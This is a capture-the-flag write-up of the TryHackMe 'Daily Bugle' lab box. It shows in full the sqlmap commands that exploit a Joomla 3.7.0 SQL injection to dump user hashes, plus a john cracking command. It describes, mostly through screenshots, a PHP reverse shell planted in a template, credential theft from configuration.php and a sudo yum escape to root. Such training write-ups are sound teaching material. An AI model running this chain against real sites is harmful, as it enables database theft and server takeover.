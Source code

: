 ```yaml
---
title: TryHackMe Daily Bugle
description: DailyBugle writeup
categories:
 - tryhackme

tags: tryhackme joomla sqli oscp yum
---
```


## Summary

Daily Bugle is free box on Tryhackme OSCP learning path. Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.
categories:

## Enumeration/Reconnaissance
![](https://i.imgur.com/tzKm3a6.png)

Here is nmap result, we got three service running.
PORT       Service
22/tcp     ssh
80/tcp     http(Apache)
3306/tcp   mysql(MariaDB)

lets start with port 80 to deep dive.

And we found who rob the Bank
![](https://i.imgur.com/bSR8SzI.png)

To check for intresting directory lets fire up GoBuster.

![](https://i.imgur.com/WwjnMlr.png)

After checking directory we got admin panel.
![](https://i.imgur.com/eR2ePC3.png)

To get more info on joomla, i have used joomscan
![](https://i.imgur.com/YURMF5t.png)

Here nothing seems to be new but we got the joomla version Joomla 3.7.0

Searchsploit shows that joomla version 3.7.0 is vulnerable to sql injection.
![](https://i.imgur.com/2BjGrQb.png)

## Exploit
Here is that sqlmap command vulnerable to joomla 3.7.0
```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
Lets start Sqlmap with above command.
![](https://i.imgur.com/ChiMPO1.png)
Here, we have declared cookies. So continue with Yes.
![](https://i.imgur.com/sMOS6iW.png)
To skip test payloads specifice for other database. So continue with Y.
![](https://i.imgur.com/6yZB6d2.png)
We got our vulnearable parameter. so stop testing with N.
![](https://i.imgur.com/DkWP4GN.png)
We got five Vulnerable database. Joomla looks interesting!!!
```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla --tables
```
![](https://i.imgur.com/IQprwWV.png)
```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" --columns
```
Now lets check the columns of Joomla. We got a table "#__users"


![](https://i.imgur.com/9u2jP3c.png)
Lets find out the columns of table "__users".

![](https://i.imgur.com/VlpSAiz.png)
We got five columns.Lets check for username and password.

```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" -c username --dump
```

![](https://i.imgur.com/mpCqnR8.png)
We got the username jonah

```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" -c password --dump
```
![](https://i.imgur.com/sb3qaHV.png)
lets check the password. We got hash
![](https://i.imgur.com/Pbztfh3.jpg)

## Password Cracking
Time to crack the hash. Here, I have used John to crack the hash
```
$ john --wordlist=/user/share/wordlists/rockyou.txt hash.txt
```
![](https://i.imgur.com/bjv8Hte.jpg)

We got the username and password. Lets goto admin panel and logged in.

![](https://i.imgur.com/R9s3ZQy.png)

Here, I got the template to insert the code. We can to insert reverse shell.
![](https://i.imgur.com/6FR9hhW.png)

![](https://i.imgur.com/RXOHVya.png)
## Reverse shell/Connection
Here I have used PentestMonkey Php Reverse-shell.
![](https://i.imgur.com/v8ChQNM.png)

Now, start netcat to listen on port 4444
![](https://i.imgur.com/oqsRAh7.png)

After saving the template. Click on Template Preview to get the reverse shell.
![](https://i.imgur.com/sUrErlE.png)
We got reverse connection in netcat.
![](https://i.imgur.com/Ith2FCR.png)
We got new user.
![](https://i.imgur.com/7SHM0Iq.png)
After searching, i got configuration file in /var/www/html/configuration.php
![](https://i.imgur.com/Nh4usCL.jpg)
So, got username and password of jjameson. lets switch to jjameson
![](https://i.imgur.com/hATkoiv.jpg)
## Privilege Escalation
For privilege Escalation, it was too easy. tried to start with sudo and got it.
sudo -l
![](https://i.imgur.com/hd2x2kz.png)
Now, goto GFTObin for yum
![](https://i.imgur.com/MYP9hKQ.png)
Copy paste this in your shell and boom
![](https://i.imgur.com/VLqdgFL.png)
## Root
we got root access and root.txt
![](https://i.imgur.com/WgPIsfX.jpg)




















